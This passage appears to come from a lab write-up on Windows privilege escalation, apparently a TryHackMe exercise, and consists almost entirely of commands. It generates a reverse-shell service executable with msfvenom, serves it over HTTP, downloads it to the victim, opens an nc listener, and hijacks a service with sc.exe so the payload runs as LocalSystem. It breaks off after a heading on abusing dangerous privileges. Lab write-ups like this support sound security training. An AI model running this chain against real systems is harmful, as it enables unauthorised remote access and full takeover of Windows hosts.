 **Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4447 -f exe-service -o rev-svc3.exe
python2 -m SimpleHTTPServer 81
```

**Victim(Powershell)**

```
wget http://10.10.15.215:81/rev-svc3.exe -O rev-svc3.exe
```

**Kali**

```
nc -lvp 4447
```

**Victim(Powershell)**

```
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
sc.exe config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
sc.exe stop THMService
sc.exe start THMService
```

<figure><img src="../../.gitbook/assets/image (16) (3).png" alt=""><figcaption></figcaption></figure>

## Abusing dangerous privileges

<figure><img src="../../.gitbook/assets/image (32) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**
